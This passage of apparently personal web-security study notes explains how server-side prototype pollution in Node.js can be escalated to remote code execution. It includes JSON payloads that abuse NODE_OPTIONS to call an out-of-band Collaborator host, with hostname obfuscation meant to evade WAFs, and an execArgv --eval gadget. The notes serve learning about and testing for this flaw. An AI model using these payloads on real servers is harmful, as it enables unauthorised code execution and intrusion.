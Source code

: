 If it works, it means the user did not have its own `isAdmin` property, but rather inherited it from the object prototype.
# RCE via Server-Side Prototype Pollution

There are many potential sinks in Node, many of which occur in the `child_process` module. These are often invoked by a request that occurs asynchronously to the request with which you are able to pollute the prototype in the first place. 

A way to identify requests is by polluting the prototype with a payload that triggers an interaction with Collaborator. 

The `NODE_OPTIONS` environment variable enables you to define a string of command-line arguments that should be used by default whenever you start a new Node process. Since it is a property on the `env` object, you can control it via prototype pollution if it is undefined.

Some Node functions for creating new child processes accept an optional `shell` property, allowing devs to set a specific shell, such as BASH, to run commands. Combining this with a malicious `NODE_OPTIONS` property, an attacker can pollute the prototype that causes an interaction with Collaborator whenever a new Node process is created:

```js
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```

>[!info]
>The escaped double-quotes in the hostname aren't strictly necessary. However, this can help to reduce false positives by obfuscating the hostname to evade WAFs and other systems that scrape for hostnames.

Methods like `child_process.spawn()` and `child_process.fork()` enables devs to create new Node subprocesses. The `fork()` method accepts an options object in which one of the potential options is the `execArgv` property.

This is an array of strings containing command-line arguments that should be used when spawning the child process. If it is left undefined, it can potentially be controlled via prototype pollution.

Since the gadget lets you control the command line arguments, this gives you access to some attack vectors that would not be possible using `NODE_OPTIONS`, including options like `--eval` which enables you to pass in arbitrary JavaScript that is executed by the child processL

```js
"execArgv": [
    "--eval=require('<module>')"
]
```

In addition, the `child_process` module contains the `execSync()` method which executes a string as a system command. By chaining the JavaScript and command injection sinks, you can escalate prototype pollution to gain full RCE.

For example, there may be an option to run maintenance jobs as an admin which may clear the database and file system by sending JSON data. There may also be a request to change user data via sending JSON data and it may reflect changes:
